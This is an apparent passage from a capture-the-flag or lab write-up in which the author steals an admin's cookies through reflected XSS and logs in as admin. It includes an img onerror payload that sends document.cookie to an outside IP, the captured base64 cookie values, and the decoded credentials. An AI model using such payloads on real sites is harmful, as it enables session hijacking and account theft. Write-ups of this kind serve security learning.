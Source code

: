 ![](./images/6.png)

- Let's send a payload to steal the `admin` cookies
  - https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md
  - `<img src=x onerror=this.src="http://10.10.16.9/?cookie="+document.cookie;>`
  - `username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D`
  - `admin:Hopelessromantic`

![](./images/7.png)

- Now we login as `admin`

![](./images/8.png)
